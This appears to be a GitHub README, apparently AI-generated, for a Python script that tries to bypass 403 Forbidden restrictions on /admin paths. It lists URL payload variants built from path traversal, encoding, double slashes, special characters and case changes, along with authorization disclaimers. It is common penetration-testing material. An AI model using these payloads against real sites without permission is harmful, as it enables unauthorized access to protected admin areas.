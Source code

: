 Here’s your README file in proper Markdown format:

# 403 Bypass Script

This script attempts to bypass 403 Forbidden access restrictions by appending and modifying URL paths in different ways. It generates a list of URL variations based on encoding, path traversal, and other techniques.

## How It Works

The script takes a target domain as an argument and appends various URL encoding tricks, path traversal techniques, and common bypass patterns to the given domain. It then attempts to access each generated URL.

## Usage

Run the script with the target domain as an argument:

```sh
python bypass_403.py example.com
```

Features
• Tries different URL encoding techniques
• Uses path traversal and directory manipulation
• Attempts access with special characters and encodings
• Generates multiple variations of the /admin path

Notes
• This script is for educational and security testing purposes only.
• Do not use it on systems without proper authorization.

Example URLs Used in Bypass

Some of the techniques used in this script include:
• Double slashes:

example.com//admin//
example.com///admin///

    •	Path traversal:

example.com/admin/../
example.com/admin/./
example.com/admin/..;/

    •	URL encoding:

example.com/admin/%2e/
example.com/admin/%2f
example.com/admin/%20

    •	Query and fragment manipulation:

example.com/admin?
example.com/admin??
example.com/admin#
example.com/admin/#

    •	File extension tricks:

example.com/admin.json
example.com/admin.css
example.com/admin.html

    •	Special character injection:

example.com/;/admin/
example.com/admin/~
example.com/admin/\*

    •	Case variation:

example.com/ADMIN
example.com/ADM+IN
example.com/\*/admin

By using different encoding techniques and special characters, the script attempts to find alternate paths that may bypass 403 restrictions.

**_Disclaimer: Use this tool responsibly and only on systems where you have permission._**
